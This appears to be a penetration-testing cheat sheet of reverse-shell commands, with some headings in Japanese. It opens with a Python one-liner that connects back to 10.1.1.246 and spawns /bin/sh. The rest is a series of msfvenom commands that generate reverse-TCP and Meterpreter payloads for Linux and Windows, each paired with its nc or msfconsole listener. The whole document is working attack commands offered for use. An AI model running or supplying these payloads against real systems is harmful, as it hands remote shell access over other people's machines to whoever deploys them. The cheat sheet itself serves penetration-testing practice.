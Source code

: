 # Python
#### Linux only
```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.1.1.246",4080));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
# msfvenom
# ***<span style="color:blue;">Linux</span>***
### <span style="color:IndianRed;">Linux(64bit)</span>
```
msfvenom -p linux/x64/shell_reverse_tcp lhost=[LHOST] lport=[LPORT] -f elf > shell.elf // 64bit-unstaged
```
### <span style="color:IndianRed;">Linux(32bit)</span>
```
msfvenom -p linux/x86/shell_reverse_tcp lhost=[LHOST] lport=[LPORT] -f elf > shell.elf // 32bit-unstaged
```
### <span style="color:Orange;">ncリスナー</span>
```
nc -lnvp 443
```
### <span style="color:IndianRed;">Linux(meterpreter 64bit)</span>
```
msfvenom -p linux/x64/meterpreter/reverse_tcp lhost=[LHOST] lport=[LPORT] -f elf > shell.elf // 64bit-meterpreter-staged
```
### <span style="color:Orange;">meterpreterペイロードリスナー(64bit)</span>
```
msfconsole -q -x "use multi/handler; set payload linux/x64/meterpreter/reverse_tcp; set lhost [IP]; set lport [port]; exploit"
```
### <span style="color:IndianRed;">Linux(meterpreter 32bit)</span>
```
msfvenom -p linux/x86/meterpreter/reverse_tcp lhost=[LHOST] lport=[LPORT] -f elf > shell.elf // 32bit-meterpreter
```
### <span style="color:Orange;">meterpreterペイロードリスナー(32bit)</span>
```
sudo msfconsole -q -x "use exploit/multi/handler; set PAYLOAD linux/x86/meterpreter/reverse_tcp; set LHOST [IP]; set LPORT [port]; exploit"
```   
***
-----
# ***<span style="color:blue;">Windows</span>***
### <span style="color:DeepSkyBlue;">Windows(64bit)</span>
```
msfvenom -p windows/x64/shell_reverse_tcp lhost=[LHOST] lport=[LPORT] -f exe > shell.exe // 64bit-unsataged 
```
### <span style="color:DeepSkyBlue;">Windows(32bit)</span>
```
msfvenom -p windows/shell_reverse_tcp lhost=[LHOST] lport=[LPORT] -f exe > shell.exe // 32bit-unsataged
```
### <span style="color:Orange;">ncリスナー</span>
```
nc -lnvp 443
```
----
### <span style="color:DeepSkyBlue;">windows(meterpreter 64bit)</span>
```
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=[LHOST] lport=[LPORT] -f exe > shell.exe // 64bit-meterpreter-sataged
```
### <span style="color:Orange;">meterpreterペイロードリスナー(64bit)</span>
```
msfconsole -q -x "use multi/handler; set payload windows/x64/meterpreter/reverse_tcp; set lhost [IP]; set lport [PORT]; exploit"
```
----
### <span style="color:DeepSkyBlue;">windows(meterpreter 32bit)</span>
```
msfvenom -p windows/meterpreter/reverse_tcp lhost=[LHOST] lport=[LPORT] -f exe > shell.exe // 32bit-meterpreter-sataged
```
### <span style="color:Orange;">meterpreterペイロードリスナー(32bit)</span>
```
msfconsole -q -x "use multi/handler; set payload windows/meterpreter/reverse_tcp; set lhost [IP]; set lport [PORT]; exploit"
```
